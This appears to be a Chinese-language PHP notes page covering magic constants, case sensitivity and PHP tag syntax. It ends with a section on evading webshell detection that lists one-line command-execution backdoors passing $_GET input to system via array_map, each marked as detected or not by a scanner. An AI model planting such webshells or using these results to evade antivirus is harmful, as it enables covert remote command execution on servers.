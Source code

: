  **`__FILE__` 常量（魔术常量）**

    
    
    __FILE__ //返回文件的完整路径和文件名  
      
    dirname(__FILE___) //函数返回的是代码所在脚本的路径  
      
    dirname(__FILE__) //返回文件所在当前目录到系统根目录的一个目录结构（不会返回当前的文件名称）

 **其他魔术常量**

    
    
    __DIR__        //当前被执行的脚步所在电脑的绝对路径  
    __LINE__       //当前所示的行数  
    __NAMESPACE__  //当前所属的命名空间  
    __CLASS__      //当前所属的类  
    __METHOD__     //当前所属的方法

###

### 0.6 PHP特性

  * PHP中函数名、方法名、类名不区分大小写，常量和变量区分大小写

  * 在某些环境中，`<?php ?>` 没有闭合会导致无法正常运作

###

### 0.7 PHP标记几种写法

其中第一和第二种为常用的写法

    
    
    第一种：<?php ?>  
    第二种：<?php  
    第三种：<? ?>  
    第四种：<% %>  
    第五种：<script language="php"></script>

第三种和第四种为短标识，当使用他们需要开启 `php.ini` 文件中的 `short_open_tag` ，不然会报错

##

## 1# 回调类型函数

###

### 1.0 Tips

在PHP的WebSehll免杀测试过程中，使用回调函数可以发现查杀引擎对函数和函数的参数是否有对应的敏感性

  *   *   *   * 

    
    
    array_map('system', array('whoami'));        //被查杀array_map($_GET['a'], array('whoami'));      //被查杀array_map('var_dump', array('whoami'));      //未被查杀array_map('system', array($_GET['a']));      //被查杀
